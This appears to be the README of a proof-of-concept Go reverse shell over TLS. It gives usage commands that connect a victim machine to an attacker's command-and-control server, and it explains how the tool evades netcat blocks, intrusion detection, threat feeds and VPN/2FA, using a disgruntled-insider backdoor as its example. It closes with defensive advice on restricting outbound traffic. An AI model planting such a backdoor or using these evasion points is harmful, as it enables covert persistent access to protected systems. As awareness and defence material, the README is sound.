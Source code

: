# A Simple Reverse Shell Framework over TLS
This is a PoC reverse shell written in Go. 

Purely for educational purposes. Use responsibly.

# Usage
Start command and control server (e.g. replace -linux with -darwin if your server is a macOS one) and select a port of your choosing (port 7788 is used below)
```bash
server-linux 7788
```

Now connect from the target/victim system, specifying the hostname (_command-and-control-server_) of the C&C server, and port that the server is listening on (7788 in our example)
```bash
client-linux command-and-control-server-hostname 7788
```


# Why?
Many network system defenders may not realise the risk associated with arbitrary outbound connection from protected systems. They may still be under the illusion that locking down and blocking inbound connections may be sufficient to protect critical systems.

The purpose is to help point out unsafe assumptions with a simple demo

## You need VPN, 2FA, etc in order to get on my network
This tool completely bypasses your protection, all it needs is an insider willing to plant a tool such as this as a backdoor to give them persistent access which circumvents all your VPN and 2FA technologies.  

Think of that sysadmin that is about to be fired. A disgruntled employee or other malicious insiders could build a similar tool to grant themselves permanent access. 

## I will block netcat/nc installation on my systems
Netcat is a very versatile and useful tool, which has very legitimate applications. However, it is also a traditional tool of choice for obtaining reverse shells. So, it may seem reasonable that blocking/blacklisting it may reduce the risk significantly.

Well, this PoC is not netcat and does not require it. In fact it is a simple plain old Go program. It is so simple as to not require any external library: it is a pure Go implementation, using only built-in primitives. Note that it is not very difficult to evade fingerprint-based scanning technologies

## I will install a network intrusion detection and fingerprint the traffic from this tool
Well, that's a good idea. A network intrusion detection system can do many things and can be used to detect attacks like this, for example, because netcat is done over plain TCP connection, it is possible to inspect packets and fingerprint data exfiltration and similar bad behaviour. 

The problem is that, unlike many similar approaches, this tool works over TLS, so good luck with that.

## I will use threat feeds to fingerprint all your command and control servers as well as certificates that may be used for TLS
Good thinking, but this will not be a reliable or efficient method for detection. This is because the tool can be configured to communicate with any server of the attacker's choosing, so they can spin up a server anywhere in the world and install arbitrary certificates on it, and you are left chasing shadows 

## What then is a reliable way to defend against this threat?
Many of the ideas suggested above, while not foolproof are part of a reasonable defense-in-depth strategy for mitigating this threat.

The key message is to *understand your network*! If you know precisely which remote servers and ports that they are allowed to communicate with, that is a great piece of information that can be used to reduce the threat. For example, you may whitelist precisely those remote servers and ports as the only outbound connections you wish to allow. 

This does not entirely prevent the attack if it is possible that the attacker may have control of any of your whitelisted servers/ports. 

Where outbound Internet connection is necessary, *consider network anomaly detection* to help you _possibly_ detect unusual connections that may be an indicator of compromise.

Even, if you totally blocked outbound Internet access, it is not a guaranteed solution. This is because if the protected server is allowed to make outbound connections directly or indirectly to another internal system that in turn has the capability to make outbound Internet connection, this tool can be chained together starting from your sensitive system, and trampolining via other internal systems to ultimately reach one that could communicate directly outbound to the Internet.


# Warning and Disclaimers
This tool is only provided for educational purposes. Do not use it to attack systems. The author assumes no liability or responsibility for anything you do with it or that it does to any system you use it on. See LICENSE for further detail.

## A demo should still use secure communications
This tool is intended to highlight a threat to protected systems and to demonstrate the difficulty in effectively defending against the threat.

It is a very simple program that could be used to demonstrate the importance of monitoring outbound connections from your protected environment for the existence of maliciously planted backdoors. 

However, it is important to do that over TLS too as you'd not like third parties to sniff or inject themselves into your demo. 

CAUTION: Please note that the TLS to the target mitigates casual sniffing and injection risks, however it does not entirely eliminate man-in-the-middle attacks because the client does not verify end certificates. Consider certificate pinning or similar approaches if you'd like to use this technique on a more permanent basis or for other legitimate/useful remote shell designs!
